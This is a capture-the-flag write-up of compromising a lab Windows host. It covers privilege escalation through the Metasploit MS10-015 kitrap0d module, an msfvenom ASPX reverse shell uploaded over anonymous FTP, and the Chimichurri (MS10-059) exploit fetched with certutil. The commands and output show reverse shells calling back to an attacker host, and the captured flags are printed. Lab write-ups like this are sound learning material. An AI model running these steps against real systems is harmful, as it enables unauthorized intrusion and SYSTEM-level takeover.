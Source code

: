 #kernel #kitrap0d #metasploit #netcat #Chimichurri #MS10-059 #MS10-015 #FTP #python #certutil #msfvenom #Windows #PrivEsc 

---

Windows Kernel Exploits - [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

## Metasploit Method
1. Background the session
	1. `bg session`
2.  Use **MS10-015** kitrap0d exploit
```
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  11               yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.4       yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)



View the full module info with the info, or info -d command.
```

Exploited
```
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.4:5555 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 4068 launched.
[*] Reflectively injecting the DLL into 4068...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 12 opened (10.10.14.4:5555 -> 10.10.10.5:49202) at 2024-10-01 14:46:13 -0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

3. User flag - babis
```
c:\Users\babis\Desktop>type user.txt
type user.txt
dc9de1a7dfec1f3f1eafc09aa7ede2ea
```

4. Root flag
```
c:\Users\Administrator\Desktop>type root.txt
type root.txt
56738ddd739b096a539b9256b3abeb12
```

---

## Manual Method

1. Create reverse tcp payload with `msfvenom` 
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=5555 -f aspx >manual.aspx
```

2. Use ftp to `PUT` `manual.aspx` payload on `10.10.10.5` server
```
┌──(root㉿kali)-[~]
└─# ftp anonymous@10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put manual.aspx 
local: manual.aspx remote: manual.aspx
229 Entering Extended Passive Mode (|||49204|)
150 Opening ASCII mode data connection.
100% |***************************************************************************************************************|  2753       65.63 MiB/s    --:-- ETA
226 Transfer complete.
2753 bytes sent in 00:00 (26.85 KiB/s)
```

3. Create listener on specified port from payload
```
nc -lnvp 5555
```

4. Navigate to url `10.10.10.5/manual.aspx` to catch shell in `nc` 
```
┌──(root㉿kali)-[~]
└─# nc -lnvp 5555 
listening on [any] 5555 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.5] 49210
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami    
whoami
iis apppool\web
```

5. Found exploit that give local system shell, **==MS10-059 (Chimichurri)==**. Download `.exe` and start python server to transfer file (`cd` to location of file)
```python3
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.5 - - [01/Oct/2024 15:10:41] "GET /Chimichurri.exe HTTP/1.1" 200 -
```

```certutil
c:\Windows\Temp>certutil -urlcache -f http://10.10.14.4:8000/Chimichurri.exe ms.exe                                                                         
certutil -urlcache -f http://10.10.14.4:8000/Chimichurri.exe ms.exe                                                                                         
****  Online  ****                                                                                                                                          
CertUtil: -URLCache command completed successfully.  
```

6. Run start `nc` listener for used with `ms.exe` and run `ms.exe`
```nc
┌──(root㉿kali)-[~]
└─# nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.5] 49218
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\Windows\Temp>whoami
whoami
nt authority\system
```

```Chimichurri
c:\Windows\Temp>ms.exe 10.10.14.4 5555
ms.exe 10.10.14.4 5555
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```